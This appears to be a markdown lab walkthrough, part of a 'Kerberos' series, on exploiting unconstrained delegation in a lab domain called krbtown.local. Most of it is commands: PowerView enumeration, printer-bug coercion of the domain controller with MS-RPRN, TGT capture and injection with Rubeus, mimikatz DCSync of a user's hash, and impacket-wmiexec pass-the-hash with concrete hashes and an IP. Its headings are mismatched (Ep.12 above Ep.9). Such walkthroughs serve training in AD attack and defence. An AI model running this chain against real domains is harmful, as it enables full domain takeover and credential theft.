

---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services
IML - Kerberos: Ep. 9 – Unconstrained Delegation


Use following command in powershell.exe to dot source the script first:

```bash
. .\Powerview_dev.ps1
```
**<u>Dot sourcing</u>**

The dot sourcing feature lets you run a script in the current scope instead of in the script scope. When you run a script that is dot sourced, the commands in the script run as though you had typed them at the command prompt

- On workstation-01 run Powerview:

```bash
. .\Powerview_dev.ps1

```


- Enumerating for unconstrained delegation:

```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```




<u>Exploiting unconstrained delegation:</u>
Now that you have access to a host with an unconstrained delegation set, you can force a privileged user to connect to the system. To do this, you'll need to use the MS-RPRN tool (aka spoolsample). This tool will force a DC account to connect to our hostname; in this case, Workstation-02

- Open an elevated command prompt and monitor for TGT **(Open in CMD not PS)**:

```bash
Rubeus.exe monitor /interval:1

```


- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe

.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```


- Since the host has an unconstrained delegation feature enabled, you can obtain a valid TGT to impersonate a DC account

- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"[\n\t\s]*", "", f))'

```
- Copy the output and paste into the command (on Windows):

(Convert from Base64 and saves it in **DC.kirbi**)

```powershell
[IO.File]::WriteAllBytes("C:\Users\m.oh\Desktop\Tools\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```


- Load the ticket into memory:

```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```


- Check that it has been loaded in successfully:

```bash
klist

```


- Open mimikatz:

```bash
lsadump::dcsync /user:krbtown\a.belridge

```


- Use wmiexec to gain access to the DC:

```bash
impacket-wmiexec [DOMAIN]/[USERNAME]@[TARGET] -hashes [LM-HASH]:[NT-HASH] 

impacket-wmiexec krbtown/a.belridge@10.102.110.227 -hashes 5bc77749d18b5076452c01b71eda19d0:a3352be00f83a3a7f86a8825e49d5011

```


